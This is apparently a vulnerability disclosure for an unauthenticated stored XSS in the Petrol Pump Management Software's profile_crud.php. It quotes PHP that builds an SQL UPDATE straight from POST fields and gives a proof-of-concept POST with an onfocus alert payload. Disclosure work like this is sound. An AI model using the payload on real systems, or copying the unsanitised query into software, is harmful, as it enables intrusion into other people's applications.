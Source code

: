 # SOURCECODESTER / Petrol pump management software - profile_crud.php Unauthenticated STORED XSS.md

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html

## Affected Component
> /admin/app/profile_crud.php

## Code
```php
//echo "UPDATE `login` SET `username`='".$_POST['username']."',`email`='".$_POST['email']."',`mobileno`='".$_POST['mobileno']."',`image`='".$img."' WHERE id='".$_SESSION['id']."' ";exit;
	$stmt = $conn->prepare("UPDATE `login` SET `username`='" . $_POST['username'] . "',`email`='" . $_POST['email'] . "',`mobileno`='" . $_POST['mobileno'] . "',`image`='" . $img . "' WHERE id='" . $_SESSION['id'] . "' ");
	$stmt->execute();



	header("location:../dashboard.php");
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /admin/app/profile_crud.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 55

update=&username="+onfocus%3dalert(\'nochizplz\')>'+%23
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/3ed26dd8-f6d4-4029-8447-be5e7d81eb92)
